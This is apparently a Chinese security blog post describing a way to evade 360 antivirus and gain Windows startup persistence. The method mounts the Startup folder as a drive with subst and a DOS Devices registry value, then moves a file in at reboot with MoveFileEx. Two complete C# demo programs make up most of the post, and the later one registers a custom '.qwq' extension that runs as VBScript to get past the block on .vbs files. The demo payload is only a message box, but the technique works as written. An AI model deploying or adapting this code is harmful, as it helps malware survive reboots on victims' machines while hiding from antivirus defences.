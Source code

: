 ```yaml
---
title: 一个不太好用的过360启动方案
date: 2023-2-27 17:49:45
categories: 
- Persistence
tags:
- Bypass
- 360
- Persistence
---
```

突发奇想的一个思路，不太好用就发出来玩玩吧

# 背景知识

## 目录挂载

subst是Windows自带的一个工具，可以将文件目录挂载为磁盘，但是重启后不会继续挂载了。

如果想长期挂载，需要修改注册表 ``HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\DOS Devices``。

[https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst)

## MoveFileEx

MoveFileEx函数第三个参数，可以设置为MOVEFILE_DELAY_UNTIL_REBOOT，实现重启后移动文件。

此参数仅适用于同一盘符内文件的移动。

[https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa)

# 绕过思路

shell:startup目录是用户的启动文件夹，其中的文件会在系统启动时执行，杀软也肯定对写入该目录存在监控

但是杀软无法拦截MoveFileEx导致的重启后移动，所以挂载启动文件夹为新盘符目录后通过MoveFileEx即可移动文件至启动文件夹中

# Demo代码

```
using System;
using System.IO;
using Microsoft.Win32;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Demo
{
    internal class Program
    {
        [Flags]
        enum MoveFileFlags
        {
            MOVEFILE_REPLACE_EXISTING = 0x00000001,
            MOVEFILE_COPY_ALLOWED = 0x00000002,
            MOVEFILE_DELAY_UNTIL_REBOOT = 0x00000004,
            MOVEFILE_WRITE_THROUGH = 0x00000008,
            MOVEFILE_CREATE_HARDLINK = 0x00000010,
            MOVEFILE_FAIL_IF_NOT_TRACKABLE = 0x00000020
        }

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
        static extern bool MoveFileEx(string lpExistingFileName, string lpNewFileName, MoveFileFlags dwFlags);
        static void Main(string[] args)
        {
            File.WriteAllText("C:\\Windows\\Temp\\1.vbs", "msgbox(\"test\")");
            string newdisk = "X:";
            string filepath = "C:\\Windows\\Temp\\1.vbs";
            string filename = "1.vbs";

            string appdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
            string programs = appdata + "\\Microsoft\\Windows\\Start Menu\\Programs";
            RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SYSTEM\\CurrentControlSet\\Control\\Session Manager\\DOS Devices", true);
            registryKey.SetValue(newdisk, "\\??\\"+ programs);
            Process.Start("subst", newdisk+" \""+ programs + "\"");
            File.Copy(filepath, programs+"\\"+ filename);
            MoveFileEx(newdisk+ "\\" + filename, newdisk + "\\Startup\\" + filename, MoveFileFlags.MOVEFILE_DELAY_UNTIL_REBOOT);
        }
    }
}

```

# 2023/4/16更新

有朋友测试发现vbs后缀被拦了，懒得搞其他冷门后缀了，直接自己搞个后缀吧

```csharp
using System;
using System.IO;
using Microsoft.Win32;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Demo
{
    internal class Program
    {
        [Flags]
        enum MoveFileFlags
        {
            MOVEFILE_REPLACE_EXISTING = 0x00000001,
            MOVEFILE_COPY_ALLOWED = 0x00000002,
            MOVEFILE_DELAY_UNTIL_REBOOT = 0x00000004,
            MOVEFILE_WRITE_THROUGH = 0x00000008,
            MOVEFILE_CREATE_HARDLINK = 0x00000010,
            MOVEFILE_FAIL_IF_NOT_TRACKABLE = 0x00000020
        }
  
        public static void RegisterFileType()
        {
            RegistryKey softwareKey = Registry.ClassesRoot.OpenSubKey(".qwq");
            if (softwareKey != null)
            {
                return;
            }

            RegistryKey fileTypeKey = Registry.ClassesRoot.CreateSubKey(".qwq");
            string relationName = "QWQDANCHUN";
            fileTypeKey.SetValue("", relationName);
            fileTypeKey.Close();

            RegistryKey relationKey = Registry.ClassesRoot.CreateSubKey(relationName);
            relationKey.SetValue("", "Bypass Startup Script");

            RegistryKey shellKey = relationKey.CreateSubKey("Shell");

            RegistryKey openKey = shellKey.CreateSubKey("Open");

            RegistryKey commandKey = openKey.CreateSubKey("Command");
            commandKey.SetValue("", "wscript.exe //E:vbscript" + " \"%1\"");
            relationKey.Close();
        }

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
        static extern bool MoveFileEx(string lpExistingFileName, string lpNewFileName, MoveFileFlags dwFlags);
        static void Main(string[] args)
        {
            File.WriteAllText("C:\\Windows\\Temp\\test.qwq", "msgbox(\"test\")");
            string newdisk = "X:";
            string filepath = "C:\\Windows\\Temp\\test.qwq";
            string filename = "test.qwq";

            string appdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
            string programs = appdata + "\\Microsoft\\Windows\\Start Menu\\Programs";
            RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SYSTEM\\CurrentControlSet\\Control\\Session Manager\\DOS Devices", true);
            registryKey.SetValue(newdisk, "\\??\\" + programs);
            Process.Start("subst", newdisk + " \"" + programs + "\"");
            File.Copy(filepath, programs + "\\" + filename);
            MoveFileEx(newdisk + "\\" + filename, newdisk + "\\Startup\\" + filename, MoveFileFlags.MOVEFILE_DELAY_UNTIL_REBOOT);
            RegisterFileType();
        }
    }
}

```
